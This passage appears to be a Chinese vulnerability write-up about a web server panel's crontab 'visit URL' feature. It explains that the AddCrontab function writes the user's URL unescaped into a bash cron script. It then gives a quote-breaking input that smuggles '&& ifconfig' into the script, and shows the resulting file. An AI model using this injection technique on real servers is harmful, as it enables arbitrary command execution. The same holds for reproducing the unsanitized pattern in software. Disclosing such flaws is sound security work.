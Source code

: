   
功能，在添加
```
访问URL
```

  
项目时，会在服务器上的
```
/www/server/cron/
```

  
目录中生成一个类似于下面的文件  

```
#!/bin/bash
PATH=/bin:/sbin:/usr/bin:/usr/sbin:/usr/local/bin:/usr/local/sbin:~/bin
export PATH
curl -sS --connect-timeout 10 -m 3600 '【输入的url】'
echo &#34;----------------------------------------------------------------------------&#34;
endDate=`date +&#34;%Y-%m-%d %H:%M:%S&#34;`
echo &#34;★[$endDate] Successful&#34;
echo &#34;----------------------------------------------------------------------------&#34;


```

  
由于在
```
/www/server/panel/class/crontab.py
```

  
文件中的
```
AddCrontab
```

  
函数中，没有检测输入url是否存在危险字符，所以导致可以通过引号来截断原本的url，使其达到任意命令执行的目的。  
  
例如： 正常输入url为 
```
https://www.baidu.com
```

  
，但是可以通过输入引号像这样来截断 
```
https://www.baidu.com' && ifconfig && echo '
```

  
生成的文件为：  

```
#!/bin/bash
PATH=/bin:/sbin:/usr/bin:/usr/sbin:/usr/local/bin:/usr/local/sbin:~/bin
export PATH
curl -sS --connect-timeout 10 -m 3600 'https://www.baidu.com' && ifconfig && echo ''
echo &#34;----------------------------------------------------------------------------&#34;
endDate=`date +&#34;%Y-%m-%d %H:%M:%S&#34;`
echo &#34;★[$endDate] Successful&#34;
echo &#34;----------------------------------------------------------------------------&#34;


```
